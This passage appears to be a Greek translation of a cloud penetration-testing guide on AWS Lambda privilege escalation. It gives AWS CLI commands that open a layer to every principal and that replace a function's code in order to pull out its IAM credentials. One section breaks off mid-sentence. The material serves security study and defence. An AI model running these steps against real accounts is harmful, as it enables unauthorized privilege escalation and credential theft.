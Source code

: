 **Πιθανή Επίπτωση:** Άμεση αύξηση προνομίων στον ρόλο υπηρεσίας lambda με τη χορήγηση δικαιώματος τροποποίησης του κώδικα και εκτέλεσής του.

### `lambda:AddLayerVersionPermission`

Ένας επιτιθέμενος με αυτό το δικαίωμα μπορεί **να χορηγήσει στον εαυτό του (ή σε άλλους) το δικαίωμα `lambda:GetLayerVersion`**. Μπορεί να έχει πρόσβαση στο layer και να αναζητήσει ευπαθείς προς επίθεση σημεία ή ευαίσθητες πληροφορίες.

{% code overflow="wrap" %}
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
{% endcode %}

**Πιθανή Επίπτωση:** Πιθανή πρόσβαση σε ευαίσθητες πληροφορίες.

### `lambda:UpdateFunctionCode`

Οι χρήστες που κατέχουν την άδεια **`lambda:UpdateFunctionCode`** έχουν τη δυνατότητα να **τροποποιήσουν τον κώδικα μιας υπάρχουσας λειτουργίας Lambda που συνδέεται με έναν ρόλο IAM.**\
Ο επιτιθέμενος μπορεί **να τροποποιήσει τον κώδικα της λειτουργίας Lambda για να εξαγάγει τα διαπιστευτήρια IAM**.

Παρόλο που ο επιτιθέμενος ενδέχεται να μην έχει την άμεση δυνατότητα να εκτελέσει τη λειτουργία, εάν η λειτουργία Lambda είναι υπάρχουσα και λειτουργική, είναι πιθανό να ενεργοποιηθεί μέσω υπαρχόντων ροών εργασίας ή συμβάντων, διευκολύνοντας έτσι έμμεσα την εκτέλεση του τροποποιημένου κώδικα.

{% code overflow="wrap" %}
```bash
# Thezip should contain the lambda code (trick: DOwnload the current one and add your code there)
aws lambda update-function-code --function-name target_function \
--zip-file fileb:///my/lambda/code/zipped.zip

# If you have invoke permissions:
aws lambda invoke --function-name my_function output.txt

# If not check if it's exposed in any URL or via an API gateway you could access
```
{% endcode %}

**Πιθανή Επίπτωση:** Άμεση αύξηση προνομιακών δικαιωμάτων στον λογαριασμό υπηρεσίας lambda που χρησιμοποιείται.

### `lambda:UpdateFunctionConfiguration`

#### Εισαγωγή

[**Επίπεδα Lambda**](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html) επιτρέπει την συμπερίληψη **κ
```python
import json
import sys

def lambda_handler(event, context):
print(json.dumps(sys.path, indent=2))
```
Αυτά είναι τα μέρη:
